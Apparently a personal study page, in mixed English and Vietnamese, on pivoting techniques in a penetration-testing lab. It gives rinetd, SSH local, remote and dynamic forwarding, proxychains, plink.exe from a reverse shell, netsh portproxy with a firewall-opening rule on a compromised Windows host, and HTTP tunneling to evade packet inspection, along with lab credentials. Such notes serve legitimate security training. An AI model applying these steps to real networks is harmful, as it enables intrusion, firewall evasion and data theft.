





<aside class="mdx-author" markdown>
![@squidfunk][@squidfunk avatar]

<span>__08__ · @nhotran</span>
<span>
:octicons-calendar-24: August 23, 2022 ·
:octicons-clock-24: 3 min read
</span>
</aside>

  [built-in search plugin]: ../../setup/setting-up-site-search.md#built-in-search-plugin
  [@squidfunk avatar]: ../assets/author/nhoicon.png
  [insiders-4.14.0]: ../../insiders/changelog.md#4.14.0

---

## Port Forwarding

>	Port forwarding is the simplest traffic manipulation technique we will examine in which we redirect traffic destined for one IP address and port to another IP address and port.

|Machine | account|
|---|---|
|attacker | kali@ttnho|
|client1  | ntt@debian|
|client2  | winserver 2016|

*Note: kali and debian open port ssh*

### RINETD (use rinetd to redirect any traffic)

> In this fairly-common scenario, our first target, the Linux web server, has Internet connectivity, but the second machine, the Linux client, does not. We were only able to access this client by pivoting through the Internet-connected server. In order to pivot again, this time from the Linux client, and begin assessing other machines on the internal network, we must be able to transfer tools from our attack machine and exfiltrate data to it as needed. Since this client can not reach the Internet directly, we must use the compromised Linux web server as a go-between, moving data twice and creating a very tedious data transfer process.



Check  access the internet:

```bash
kali@ttnho:~$ ping google.com -c 1
kali@ttnho:~$ nc -nvv 216.58.207.142 80
```
> *Vì máy linux client không thể truy cập internet do đó để thực hiện transfer file to internet-connected host, chúng ta phải transfer them to Linux web server và sau đó transfer chúng 1 lần nữa tới our intended destination. Thay vào đó chúng ta có thể sử dụng port forwarding tool "rinetd" để redirect traffic on out kali linux server.*

Install rinetd tool:

```bash
kali@ttnho:~$ sudo apt update && sudo apt install rinetd
```

Sau khi cài đặt rinetd, thực hiện edit file configuration */etc/rinetd.conf*  thực hiện tạo forwarding yêu cầu có 4 paramerers:  *bindaddress - bindport - connectaddress - connectport*

Install rinetd tool

```bash
kali@ttnho:~$ sudo apt update && sudo apt install rinetd
```

Exam: use rinetd to redirect any traffic received by the Kali web server on port 80 to the google.com IP address we used in our tests. To do this, we will edit the rinetd configuration file and specify the following forwarding rule	0.0.0.0 80 216.58.207.142 80

Check file configuration rinetd:

```bash
kali@ttnho:~$ cat /etc/rinetd.conf
	...
	# bindadress  bindport  connectaddress  connectport
	0.0.0.0 80 216.58.207.142 80
	...
```

Restart rinetd service

```bash
kali@ttnho:~$ sudo service rinetd restart
```


## SSH Tunneling

### SSH Local Port Forwarding

SSH _local port forwarding_ allows us to tunnel a local port to a remote server using SSH as the transport protocol. The effects of this technique are similar	to rinetd port forwarding, with a few twists

Check config ssh local port forwarding:

```bash
root@ttnho:~$ cat /root/port_forwarding_and_tunneling/ssh_local_port_forwarding.sh
```

SSH Local port forwarding

```bash
kali@ttnho:~$ sudo ssh -N -L [bind_address:]port:host:hostport [username@address]
kali@ttnho:~$ sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 ntt@10.11.0.128
```



### SSH Remote Port Forwarding

```bash
ntt@debian:~$ ssh -N -R [bind_address:]port:host:hostport [username@address]
ntt@debian:~$ ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```



### SSH Dynamic Port Forwarding

> Dynamic port forwarding allows you to create a socket on the local (ssh client) machine, which acts as a SOCKS proxy server. When a client connects to this port, the connection is forwarded to the remote (ssh server) machine, which is then forwarded to a dynamic port on the destination machine. This way, all the applications using the SOCKS proxy will connect to the SSH server, and the server will forward all the traffic to its actual destination.

Dynamic Port Forwarding

```bash
kali@ttnho:~$ ssh -N -D [address_bind]:port_bind [username@<IP_server>]		
kali@ttnho:~$ sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

Modify proxychains config

```bash
kali@ttnho:~$ cat /etc/proxychains.conf
	...
	[ProxyList]
	#add proxy here
	#meanwile
	#defaults set to "tor"
	socks4 127.0.0.1 8080
```



Thực thi lênh với proxychains

```bash
kali@ttnho:~$ sudo proxychains nmap --top-port=20 -sT -Pn 192.168.1.10
```

## PLINK.exe

> Tình huống: we have gained access to a Windows 10 machine during our assessment through a vulnerability. We would like to scan this database or interact with the service. However, because of the firewall, we cannot directly interact with this service from our Kali machine.
=>use plink.exe to connect via SSH (-ssh) to our Kali machine (10.11.0.4) as the kali user (-l kali) with a password of "ilak" (-pw ilak) to create a remote port forward (-R) of port 1234 (10.11.0.4:1234) to the MySQL port on the Windows target (127.0.0.1:3306)

```powershell
c:\nho> plink.exe
c:\nho> plink.exe -ssh -l kali -pw kali -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

#However, since this will most likely not work with the interactivity level we have in a typical reverse shell, we should pipe the answer to the prompt with the cmd.exe /c echo y command. From our reverse shell, then, this command will successfully establish the remote port forward without any interaction:
c:\nho> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

#Now that our tunnel is active, we can attempt to launch an Nmap scan of the target's MySQL port via our localhost port forward on TCP port 1234:
kali@ttnho:~$ sudo nmap -sS -sV 127.0.0.1 -p 1234
```

## NETSH

Yêu cầu:

+ The windows system must have the IP Helper service running

+ IPv6 support must be enabled for the interface we want to use

Example: we will use the netsh (interface) context to add an IPv4-to-IPv4 (v4tov4) proxy (portproxy) listening on 10.11.0.22 (listenaddress=10.11.0.22), port 4455 (listenport=4455) that will forward to the Windows 2016 Server (connectaddress=192.168.1.110) on port 445 (connectport=445)

Note: Các câu lệnh đc thực hiện trên máy compromised

```powershell
c:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110

#Check port 4455 is listening on the compromised windows host
c:\Windows\system32> netstat -anp TCP | find "4455"

#using netsh to allow inbound traffic on TCP port 4455 (default Windows Firewall will disallow inbound connection on TCP port 4455)
c:\Windows\system32>netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow

#connect to compromised windows machine on port 4455 using smbclient
kali@ttnho:~$ sudo nano /etc/samba/smb.conf
kali@ttnho:~$ cat /etc/samba/smb.conf
kali@ttnho:~$ sudo /etc/init.d/smbd restart
kali@ttnho:~$ smbclient -L 10.11.0.22 --port=4455 --user=Administrator

kali@ttnho:~$ sudo mkdir /mnt/win10_share
kali@ttnho:~$ sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
kali@ttnho:~$ ls -l /mnt/win10_share/
kali@ttnho:~$ cat /mnt/win10_share/data.txt
```

## HTTPTunneling through Deep Packet Inspection

Certain deep packet content inspection devices may only allow specific protocols. If, for example, the SSH protocol is not allowed, all the tunnels that relied on this protocol would fail.



View content of the http_tunneling

```shell
root@debian:~$ cat /root/port_forwarding_and_tunneling/http_tunneling.sh
root@debian:~$ /root/port_forwarding_and_tunneling/http_tunneling.sh
```

Install HTTPtunnel

```shell
kali@ttnho:~$ apt-cache search httptunnel
kali@ttnho:~$ sudo apt install httptunnel
```

Local port forward from debian to windows server remote desktop port

```shell
www-data@debian:/$ ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
ntt@debian:~$ ss -antp | grep "8888"
```

Setting up the server component of HTTPTunnel

```shell
ntt@debian:~$ hts --forward-port localhost:8888 1234
ntt@debian:~$ ps aux | grep hts
ntt@debian:~$ ss -antp |grep "1234"
```

Setting up the client component of HTTPTunnel

```shell
kali@ttnho:~$ htc --forward-port 8080 10.11.0.128:1234
kali@ttnho:~$ ps aux | grep htc
kali@ttnho:~$ ss -antp | grep "8080"
```

Check rdp from kali to windows server

```shell
kali@ttnho:~$ rdesktop 127.0.0.1:8080
```